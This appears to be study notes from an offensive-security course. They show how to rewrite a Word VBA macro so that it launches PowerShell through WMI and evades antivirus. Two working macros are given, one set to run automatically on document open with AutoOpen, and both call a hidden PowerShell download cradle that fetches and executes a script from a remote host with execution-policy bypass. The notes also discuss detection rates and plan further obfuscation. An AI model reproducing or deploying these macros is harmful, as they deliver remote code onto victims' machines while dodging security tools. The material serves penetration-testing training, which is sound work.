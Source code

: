 ## Problem with old code
Our old powershell vba shellcode runner looks something as follows:
```VBA
Sub MyMacro()
  Dim strArg As String
  strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.49.150/run.txt'))"
  Shell strArg, vbHide
End Sub
```

There are 2 main problems with this code:
1. The use of _Shell_ function, which can prove to be a red flag for most antivirus products.
2. The powershell download cradle, which also can be another red flag.

## Solution
To address these issues, we'll first address the issue of PowerShell being a child process of the Office program by leveraging the _Windows Management Instrumentation_ (WMI) framework.

We'll first connect to WMI from VBA, which is done through the _GetObject_ method, specifying the [_winmgmts_](https://docs.microsoft.com/en-us/windows/win32/wmisdk/winmgmt) class name.
Winmgmt is the WMI service within the SVCHOST process running under the LocalSystem account.

When performing an action, the Winmgmt WMI service is created in a separate process as a child process of _Wmiprvse.exe_, which means we can de-chain the PowerShell process from Microsoft Word.

WMI is divided into [_Providers_](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-providers) that contain different functionalities, and each provider contains multiple classes that can be instantiated. To create a PowerShell process, we want to use the [_Win32_Process_](https://docs.microsoft.com/en-gb/windows/win32/cimwin32prov/win32-process) class from the [_Win32_](https://docs.microsoft.com/en-gb/windows/win32/cimwin32prov/win32-provider) provider.
To create a new process, we'll use the _Get_ method to select the _Win32_Process_ class and invoke the _Create_[8](https://portal.offensive-security.com/courses/pen-300/books-and-videos/modal/modules/introduction-to-antivirus-evasion/hiding-power-shell-inside-vba/dechaining-with-wmi#fn8) method.

Our new code will look as follows:
```VBA
Sub MyMacro
  strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.49.150/run.txt'))"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    Mymacro
End Sub
```

In this, The _Create_ method accepts four arguments:
1. Name of process with arguments
2. Process creation information(null)
3. Same as 3 (null)
4. Dynamic process id (pid)

Even though our code is still being detected by 7/26 antivirus products from Antiscan.Me, this is a good step.
We can now start the obfuscation of our code to make our code even better.
